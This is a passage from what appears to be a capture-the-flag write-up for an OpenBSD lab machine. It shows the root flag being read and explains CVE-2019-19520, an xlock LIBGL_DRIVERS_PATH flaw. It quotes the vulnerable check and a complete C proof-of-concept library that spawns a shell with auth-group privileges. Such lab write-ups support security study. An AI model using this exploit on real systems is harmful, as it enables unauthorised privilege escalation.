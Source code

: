```
S/Key Password:
openkeys#

```

And grab `root.txt`:

```

openkeys# cat root.txt
f3a553b1************************

```

### Manual CVE-2019-19520

#### Overview

`xlock` is program that locks the screen and waits for the user to re-enter their password. There is a check (in `xenocara/lib/mesa/src/loader/loader.c`) to make sure that SUID binaries can’t use the `LIBGL_DRIVERS_PATH` environment variable. This makes sense, because otherwise anyone could set the path to a directory they control, create a malicious library/driver that is loaded by a SUID binary, and then they get a shell as the owner of that binary.

The vulnerability is that the check in OpenBSD checks for SUID, but forgets about SetGUID binaries:

```

113    if (geteuid() == getuid()) {
114       /* don't allow setuid apps to use LIBGL_DRIVERS_PATH */
115       libPaths = getenv("LIBGL_DRIVERS_PATH");

```

`xlock` runs as the `auth` group:

```

openkeys$ ls -l /usr/X11R6/bin/xlock
-rwxr-sr-x  1 root  auth  3138520 Oct 12  2019 /usr/X11R6/bin/xlock

```

It also tries to load a driver named `swrast_dri.so`. So the attack is basically to drop a malicious library file with a `static void __attribute__ ((constructor)) _init (void)` function that will just exec a shell.

#### Shell

The proof of concept in the Qualys paper uses the following:

```

#include <paths.h>
#include <sys/types.h>
#include <unistd.h>

static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);

    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}

```
